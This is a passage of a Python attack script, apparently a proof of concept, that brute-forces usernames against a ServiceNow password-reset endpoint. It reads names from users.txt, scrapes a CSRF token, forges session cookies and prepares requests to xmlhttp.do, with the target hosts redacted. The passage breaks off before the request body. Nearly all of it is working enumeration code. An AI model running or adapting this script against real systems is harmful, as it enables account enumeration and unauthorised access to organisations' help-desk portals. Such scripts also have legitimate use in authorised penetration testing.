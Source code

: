     except requests.exceptions.Timeout:
        print ("[!] Connection to host timed out !")
        sys.exit(1)
    except requests.exceptions.ProxyError:
        print ("[!] Can't communicate with proxy !")
        sys.exit(1)

    with open ("users.txt", "r") as f:
        usernames = f.readlines()
        print (f"[+] Brute forcing ....")
        for users in usernames:
            url = "http://<redacted>/$pwd_reset.do?sysparm_url=ss_default"
            headers1 = {
                "Host": "<redacted>",
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0",
                "Accept": "*/*",
                "Accept-Language": "en-US,en;q=0.5",
                "Accept-Encoding": "gzip, deflate",
                "Connection": "close",
                "Cookie": "glide_user_route="+glide_user_route+"; JSESSIONID="+JSESSIONID+"; __CJ_g_startTime=\'"+startTime[:-6]+"\'"
                }

            try:
                # s = requests.Session()
                # s.verify = False
                r = requests.get(url, headers=headers1, timeout=20, verify=False, proxies=proxies)
                obj1 = re.findall(r"pwd_csrf_token", r.text)
                obj2 = re.findall(r"fireAll\(\"ck_updated\"", r.text)
                tokenIndex = (r.text.index(obj1[0]))
                startTime2 = (str(time.time_ns()))
                # userTokenIndex = (r.text.index(obj2[0]))
                # userToken = (r.text[userTokenIndex+23 : userTokenIndex+95])
                token = (r.text[tokenIndex+45:tokenIndex+73])
                url = "http://<redacted>/xmlhttp.do"
                headers2 = {
                    "Host": "<redacted>",
                    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0",
                    "Accept": "*/*",
                    "Accept-Language": "en-US,en;q=0.5",
                    "Accept-Encoding": "gzip, deflate",
                    "Referer": "http://<redacted>/$pwd_reset.do?sysparm_url=ss default",
                    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
                    "Content-Length": "786",
                    "Origin": "http://<redacted>/",
                    "Connection": "keep-alive",
                    # "X-UserToken":""+userToken+"",
                    "Cookie": "glide_user_route="+glide_user_route+";JSESSIONID="+JSESSIONID+"; __CJ_g_startTime=\'"+startTime2[:-6]+"\'"
                    }
